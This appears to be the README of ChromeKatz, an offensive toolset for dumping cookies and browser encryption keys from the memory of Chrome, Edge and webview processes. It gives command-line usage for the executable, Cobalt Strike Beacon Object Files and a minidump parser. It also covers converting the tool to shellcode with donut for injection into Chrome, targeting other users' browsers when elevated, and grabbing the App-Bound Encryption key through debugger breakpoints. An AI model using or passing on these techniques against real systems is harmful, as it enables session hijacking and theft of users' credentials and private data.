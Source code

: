 # ChromeKatz

ChromeKatz is a solution for dumping sensitive information from memory of Chromium based browsers.
As for now, ChromeKatz consists of three projects:
 1. CookieKatz - The cookie dumper
 2. CredentialKatz - Deprecated.. for now
 3. ElevationKatz - Get the decrpytion key from the elevation service

CookieKatz has an exe, Beacon Object File, and minidump parser available. And for the ElevationKatz executable and Beacon Object File.

CookieKatz has been completely revamped to use much more robust method for finding the cookies! New method supports older browser version as well.
There is now new flag /inject implemented to CookieKatz to defeat the App-Bound Encryption on relevant browsers!

I need a coffee, and my cats too!

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/E1E716M78J)

## CookieKatz - Dump cookies directly from memory

CookieKatz is a project that allows operators to dump cookies from Chrome, Edge or Msedgewebview2 directly from the process memory.
Chromium based browsers load all their cookies from the on-disk cookie database on startup. 

The benefits of this approach are*:
 1. Support dumping cookies from Chrome's Incogntio and Edge's In-Private processes
 1. Access cookies of other user's browsers when running elevated
 1. Dump cookies from webview processes
 1. No need to touch on-disk database file
 1. DPAPI keys not needed to decrypt the cookies
 1. Parse cookies offline from a minidump file

These statements are still true on some browsers/applications. For latest versions of Chrome you will need to inject into the process.
    ... Our use the ElevationKatz

32bit browser installations are not supported and 32bit builds of CookieKatz are not supported either.

Currently only regular cookies are dumped. Chromium stores [Partitioned Cookies](https://developers.google.com/privacy-sandbox/3pcd/chips) in a different place and they are currently not included in the dump.

This solution consists of three projects, **CookieKatz** that is a PE executable, **CookieKatz-BOF** that is a Beacon Object File version and **CookieKatzMinidump** which is the minidump parser.

## Usage

NOTE! When choosing using PID to target, use commands /list or cookie-katz-find respectively to choose the right subprocess!

### CookieKatz

```text
Examples:
.\CookieKatz.exe
    By default targets first available Chrome process
.\CookieKatz.exe /edge
    Targets first available Edge process
.\CookieKatz.exe /pid:<pid>
    Attempts to target given pid, expecting it to be Chrome
.\CookieKatz.exe /webview /pid:<pid>
    Targets the given msedgewebview2 process
.\CookieKatz.exe /list /webview
    Lists available webview processes
.\CookieKatz.exe /inject
    Targets the current process. Use this flag when your are injecting CookieKatz to Chrome process.

TIP! If you need to inject CookieKatz into the Chrome process, you can turn the exe into shellcode using donut:
    .\donut.exe -a 2 --input <Path_to_CookieKatz.exe> -z 4 -b 1 -p "/inject" -t

Flags:
    /edge       Target current user Edge process
    /webview    Target current user Msedgewebview2 process
    /pid        Attempt to dump given pid, for example, someone else's if running elevated
    /list       List targettable processes, use with /edge or /webview to target other browsers
    /inject     Indicate that the process will run in the target process
    /out        Write output to file, default location is "C:\Users\Public\Documents\cookies.log"
    /help       This what you just did! -h works as well
```

### CookieKatz-BOF

```text
beacon> help cookie-katz
Dump cookies from Chrome or Edge
Use: cookie-katz [chrome|edge|webview] [pid]

beacon> help cookie-katz-find
Find processes for Cookie-Katz
Use: cookie-katz-find [chrome|edge|webview]
```

### CookieKatzMinidump

```text
Usage:
    CookieKatzMinidump.exe <Path_to_minidump_file>

Example:
    .\CookieKatzMinidump.exe .\msedge.DMP

To target correct process for creating the minidump, you can use the following PowerShell command:
    Get-WmiObject Win32_Process | where {$_.CommandLine -match 'network.mojom.NetworkService'} | select -Property Name,ProcessId
```

## ElevationKatz - Dump profile database key from memory

ElevationKatz lets operators to dump browser profile encryption key from memory to allow access for user's sensitive information.
This works by starting a new browser process suspended, setting up break points and dumping the key once the browser process receives it from the elevator service.

The benefits of this approach are:
 1. No admin access required
 1. No need to inject into other processes
 1. No writing files on disk

ElevationKatz will start a new browser process in suspended state and attach a debugger to it. Then it will scan the browser dll to find the instruction where the browser returns from call to **os_crypt::DecryptAppBoundString** and setting a breakpoint immediately after. Once the breakpoint is hit, the tool will dump the encryption key from the memory.

There are two breakpoint types which the operator may choose from: Software and Hardware breakpoints.
* Software breakpoint works by patching the instruction in the memory and overwriting the old one. This obviously has the downside of using WIN API WriteProcessMemory.
* Hardware breakpoints are set into registers of the executing thread directly. This avoids the use of WriteProcessMemory, but will require heavy use of pattern: OpenThread->SuspendThread->ResumeThread.

Additionally for HW breakpoints, there are two supported ways for thread enumeration to choose from: NtGetNextThread and CreateToolhelp32Snapshot. SW breakpoints do not need thread enumeration and therefore the /tl32 flag does not affect it.

### ElevationKatz

```text
Examples:
.\ElevationKatz.exe /chrome
    Starts a new chrome process using path: C:\Program Files\Google\Chrome\Application\chrome.exe
.\ElevationKatz.exe /chrome /hw
    Starts a new chrome process using path: C:\Program Files\Google\Chrome\Application\chrome.exe
    Will use Hardware breakpoints instead of the sofware ones
.\ElevationKatz.exe /edge
    Starts a new chrome process using path: C:\Program Files(x86)\Microsoft\Edge\Application\msedge.exe
.\ElevationKatz.exe /path:\"C:\Program Files\BraveSoftware\Brave - Browser\Application\brave.exe\" /module:chrome.dll
    Targets the Brave browser

Flags:
    /chrome                Target Chrome process.
    /edge                  Target Edge process.
    /hw                    Use Harware breakpoints instead of SW ones.
    /tl32                  Use CreateToolhelp32Snapshot to enumerate process threads when using with /HW flag
    /path:<path_to_exe>    Provide path to the process executable
    /module:<some.dll>     Provide alternative module to target
    /help                  This what you just did! -h works as well
```

## CredentialKatz - Dump credential manager contents from memory

### Deprecated

I made a report for Chromium project about the bug that the CredentialKatz was originally exploiting and they marked it as "Won't fix" and said that they don't care if the credentials linger in the memory.

Suddenly they did fix the bug in the exact way I proposed after the tool got published :3
https://issues.chromium.org/issues/352085708


# Build and Install

## Use precompiled binaries
Download the latest release build of the ChrokeKatz BOFs [here](https://github.com/Meckazin/ChromeKatz/releases/latest). The zip file includes compiled BOFs and the CNA script to run them.

## Build your own
You may build both projects on Visual Studio with Release or Debug configuration and x64 platform. 

BOF version has been developed with Cobalt Strike's Visual Studio template [bof-vs](https://github.com/Cobalt-Strike/bof-vs). This means that Debug configuration for the *-BOFs will generate an exe instead of the COFF file. You can read more about the use of the Visual Studio template [here](https://www.cobaltstrike.com/blog/simplifying-bof-development).

You can compile your own BOF with nmake in **x64 Native Tools Command Prompt for VS 2022**:
```text
nmake all
```

## Credits
- [Henkru](https://github.com/Henkru) for fixing the BOF version crashes and creating the CNA script
- [B3arr0](https://github.com/B3arr0) for testing the BOF version and helping to squash the bugs
- [TheWover](https://github.com/TheWover) for excellent PEB definitions!
- [0vercl0k](https://github.com/0vercl0k) for creating udmp-parser which is the core library for minidump parsing
